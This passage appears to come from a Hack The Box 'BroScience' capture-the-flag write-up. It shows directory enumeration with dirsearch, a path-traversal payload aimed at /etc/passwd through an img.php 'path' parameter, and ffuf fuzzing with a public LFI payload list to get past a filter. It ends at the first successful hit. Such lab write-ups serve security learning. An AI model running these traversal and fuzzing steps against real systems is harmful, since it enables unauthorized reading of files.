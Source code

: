 ```

$ dirsearch -u https://broscience.htb/ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -e php,tx
t,js                           
 
  _|. _ _  _  _  _ _|_    v0.4.2        
 (_||| _) (/_(_|| (_| )                                            
                                            
Extensions: php, txt, js | HTTP method: GET | Threads: 30 | Wordlist size: 220545

Output File: /home/kali/.dirsearch/reports/broscience.htb/-_23-03-17_11-02-40.txt 

Error Log: /home/kali/.dirsearch/logs/errors-23-03-17_11-02-40.log

Target: https://broscience.htb/

[11:02:41] Starting: 
[11:02:43] 301 -  319B  - /images  ->  https://broscience.htb/images/
[11:02:48] 301 -  321B  - /includes  ->  https://broscience.htb/includes/
[11:02:49] 301 -  319B  - /manual  ->  https://broscience.htb/manual/
[11:02:55] 301 -  323B  - /javascript  ->  https://broscience.htb/javascript/
[11:03:00] 301 -  319B  - /styles  ->  https://broscience.htb/styles/
[11:19:47] 403 -  280B  - /server-status
```

So I started looking at each directory, and the includes directory was the most interesting and that is because of the `img.php` file, when entering that file it says: "Error: Missing 'path' parameter". Thats amazing so we know we have a `path` parameter and if it's using the `GET` function in php to get the value of the parameter there's a suspicion for LFI.
So I added the `path` parameter and entered the most basic payload: "../../../../../../../etc/passwd", it didn't work and it actually set an error: "Error: Attack detected". But that error didn't stop me, I used the LFI-Payload-List from the following github repo: https://github.com/emadshanab/LFI-Payload-List/blob/master/LFI%20payloads.txt with `ffuf` as follows:

```

$ ffuf -w lfi_payloads -u "https://broscience.htb/includes/img.php?path=FUZZ" -fw 3 -fl 1

        /'___\  /'___\           /'___\                                                       
       /\ \__/ /\ \__/  __  __  /\ \__/                          
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                           
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                    
         \ \_\   \ \_\  \ \____/  \ \_\                                               
          \/_/    \/_/   \/___/    \/_/                                                      
                                                                                                                   
       v2.0.0-dev                                                                  
________________________________________________                                            
                                                                                                                   
 :: Method           : GET            
 :: URL              : https://broscience.htb/includes/img.php?path=FUZZ 
 :: Wordlist         : FUZZ: /home/kali/Desktop/CTFs/HTB/active_machines/BroScience/lfi_payloads                                              
 :: Follow redirects : false          
 :: Calibration      : false          
 :: Timeout          : 10             
 :: Threads          : 40             
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500    
 :: Filter           : Response words: 3                                 
 :: Filter           : Response lines: 1                                                       
________________________________________________                                                                                              
                                        
[Status: 200, Size: 2235, Words: 26, Lines: 40, Duration: 203ms]                                                                              
```